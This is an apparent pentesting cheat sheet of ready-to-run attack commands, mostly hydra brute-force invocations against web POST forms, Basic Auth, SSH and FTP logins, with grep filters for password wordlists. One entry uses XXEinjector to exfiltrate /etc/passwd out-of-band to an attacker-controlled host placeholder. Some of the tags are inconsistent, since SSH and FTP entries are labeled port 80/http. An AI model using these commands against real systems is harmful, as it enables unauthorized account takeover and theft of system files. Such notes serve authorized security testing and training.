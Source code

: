## Login Brute Forcing - POST form
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <username> -P <wlist> -s <port> <targetIP> http-post-form "<path2endpoint>:<UserParameter>=^USER^&<PasswdParameter>=^PASS^:F=<ErrMsg>”
```

## Login Brute Forcing - hydra - Basic Auth
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <username> -P <passwdlst> http-get://<targetIP>:<port>/
```

## Login Brute Forcing - hydra - SSH
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -L <wlistUser> -P <wlistPasswd> ssh://<target>:<port>
```

## Login Brute Forcing - hydra - FTP
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <user> -P <passwdsList> ftp://<target>
```

## Login Brute Forcing - hydra - General
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
hydra -l <username> -P <passwordsList> -u -f -t 4 ssh://<targetURL>:<port>
```

## Login Brute Forcing - hydra - XXEinjector
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
ruby XXEinjector.rb --host=<AttackerIP> --httpport=<ourPORT> --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

## Login Brute Forcing - filter - min length
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
grep -E '^.{<minLen>,}$' <wlist>
```

## Login Brute Forcing - filter - uppercase
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
grep -E '[A-Z]' <wlist>
```
